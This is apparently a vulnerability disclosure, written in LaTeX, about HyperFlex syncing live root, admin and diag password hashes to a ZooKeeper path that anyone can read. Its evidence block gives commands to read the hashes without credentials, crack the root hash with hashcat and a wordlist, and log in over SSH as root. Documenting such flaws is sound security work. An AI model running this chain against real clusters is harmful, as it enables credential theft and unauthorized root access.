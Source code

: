 \documentclass[11pt,a4paper]{article}
\begin{document}
\subsection*{Plain Language Summary}

HyperFlex continuously synchronizes the password hashes for the root, admin,
and diag accounts to ZooKeeper so that all nodes in the cluster use the same
credentials. ZooKeeper is accessible without a password. Anyone on the
management network can read these hashes and run them through a password cracker.
The root hash gives SSH access to every storage controller in the cluster. The
admin hash gives full web management access. These are the live, currently-active
passwords --- not old defaults or build-time values.

\subsection*{Vulnerability Description}

\texttt{hxSecuritySvcMgr} is configured in \texttt{application.conf} to
synchronize OS credentials to ZooKeeper path \texttt{/user\_credentials} with
\texttt{syncEnabled = true}, covering the \texttt{root}, \texttt{admin}, and
\texttt{diag} accounts. The value stored is a semicolon-delimited string of
SHA-256 crypt(3) hashes generated by \texttt{mkpasswd -m sha-256} (hashcat mode
7400). The ZK path inherits the default \texttt{OPEN\_ACL\_UNSAFE} ACL
(\texttt{world:anyone:cdrwa}). Any host with TCP access to port 2181 can read
the current live hashes without authentication. \texttt{PermitRootLogin yes}
is the default on stCtlVM nodes.

\subsection*{Technical Evidence (6.0.2b)}

\begin{lstlisting}
# application.conf (hxSecuritySvcMgr-1.0.jar, 6.0.2b):
password {
  zkPath       = "/user_credentials"
  syncEnabled  = true
  syncAccounts = ["root", "admin", "diag"]
}

# setpasswd.sh -- how hashes are applied:
echo -e ${user}:${pass} | chpasswd -e

# Read from ZooKeeper without credentials:
zkCli.sh -server <ctlvm_ip>:2181 get /user_credentials
# Returns: root:$5$<salt>$<hash>;admin:$5$<salt>$<hash>;diag:$5$<salt>$<hash>;

# Crack the root hash:
hashcat -m 7400 hashes.txt /usr/share/wordlists/rockyou.txt
# Cracked root hash -> ssh root@<ctlvm>  (PermitRootLogin yes)
\end{lstlisting}
\end{document}
